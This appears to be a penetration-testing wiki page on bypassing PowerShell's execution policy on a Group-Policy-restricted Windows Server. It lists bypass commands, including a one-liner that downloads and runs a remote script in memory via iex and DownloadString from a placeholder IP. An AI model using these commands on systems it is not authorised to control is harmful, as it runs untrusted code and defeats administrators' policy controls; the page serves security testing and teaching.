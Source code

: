 # Restricted Mode

## Description

PowerShell's execution policy is a safety feature that controls the conditions under which PowerShell loads configuration files and runs scripts. This feature helps prevent the execution of malicious scripts.

On a Windows computer you can set an execution policy for the local computer, for the current user, or for a particular session. You can also use a Group Policy setting to set execution policies for computers and users.

{% hint style="info" %}
Microsoft stress in their documentation that Execution Policy / Restricted Mode is a safety feature and not a security feature.
{% endhint %}

## Scenario

This page covers a scenario on a fully updated Windows 2019 Server with a Group Policy Object applied that enforces PowerShell to restrict running all scripts on the system.

![](<../../.gitbook/assets/image (2024).png>)

As a result of this attempting to execute a basic script on the system produces the following result:

![](<../../.gitbook/assets/image (2025).png>)

## Identify current policy

```bash
Get-ExecutionPolicy -List | Format-Table -AutoSize
```

## Bypasses

There are many ways to bypass the restriction. Most methods are based on reading the contents of the script and piping to the PowerShell.exe process in some way. Below is shown a simple bypass method.

```bash
Get-Content .\Script.ps1 | powershell.exe -nop
```

![](<../../.gitbook/assets/image (2026).png>)

The following methods have also proven to be successful.

```bash
# Read contents and pipe to Powershell.exe (Writes to disk)
Get-Content .\Script.ps1 | powershell.exe -nop
Type .\Script.ps1 | powershell.exe -nop

# Download and execute (In Memory)
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://<IP>/<File>')"

# Potential simple bypass (Writes to disk)
powershell -ep Bypass .\Script.ps1
powershell -ep Unrestricted .\Script.ps1

# Bypass process scope
Set-ExecutionPolicy Bypass -Scope Process
#Bypass current user scope
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Unrestricted
```

## References

{% embed url="https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/" %}

{% embed url="https://null-byte.wonderhowto.com/how-to/bypass-powershell-execution-policy-pwn-windows-0323455/" %}

{% embed url="https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7.1" %}


